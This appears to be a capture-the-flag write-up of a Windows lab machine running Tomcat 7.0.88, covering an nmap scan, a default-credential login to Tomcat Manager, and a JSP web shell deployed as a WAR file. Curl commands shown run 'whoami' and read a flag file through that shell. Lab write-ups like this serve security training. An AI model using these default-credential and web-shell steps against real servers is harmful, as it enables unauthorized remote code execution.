# Active Recon

We start our recon by running Nmap against the IP in scope.

```bash
nmap -sC -sV -p- -T4 10.129.136.9
```



We find a single service running on port `8080`: `Tomcat v7.0.88`, which is an open-source Java Servlet container and HTTP web server environment.

The version dates back to `May 11, 2018`, and OSINT points to multiple known security vulnerabilities, including path traversal, improper authentication handling, and DoS risks.



We can see that the Tomcat Manager login page is enabled.



One of the first things we can try with exposed administrative services is testing for default credentials, in case the administrator did not change them.




```bash
curl -s -i -u tomcat:s3cret http://10.129.65.52:8080/manager/html | head -15
```



This lands us in the Tomcat Manager.

# Default Credentials Usage Foothold

Using the same credentials, we can access the actual web application GUI and inspect the available functionality further.





A WAR file stands for **Web Application Archive**. It is a packaged file used to distribute and deploy Java web applications on a web server or application server.

A WAR file contains the files and resources required for a Java web application to run. It is essentially a ZIP-format archive with a `.war` extension that follows a standard directory structure.

Since WAR files can contain executable Java code, the ability to upload and deploy one through the Tomcat Manager can lead to remote code execution.

# File Upload WAR Vulnerability into RCE



We also get additional information about the operating system used by the server, which is useful when writing the shell code.

We then write a web shell:



We package it as a WAR:







It now appears under **Applications** at `/shell`.

So now we try to confirm RCE, but during the process an important realization happens.

We first tried to hit the general path:

```bash
curl -s "http://10.129.65.52:8080/shell/?cmd=whoami"
```

But it was throwing errors.



We list the deployed applications using the Tomcat Manager API to confirm that it is actually running. Even though the GUI was already showing it as deployed, I wanted to verify it from the API as well:

```bash
curl -s -u tomcat:s3cret "http://10.129.65.52:8080/manager/text/list"
```



Then came the realization that maybe we have to target the **specific filename** we used for the JSP payload.

```bash
curl -s "http://10.129.65.52:8080/shell/payload.jsp?cmd=whoami"
```



We have RCE.

We start doing some basic reconnaissance on the machine.



Eventually, we find the `flags` directory under `Administrator\Desktop`.





```bash
curl -s -G "http://10.129.65.52:8080/shell/payload.jsp" --data-urlencode 'cmd=type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"'
```
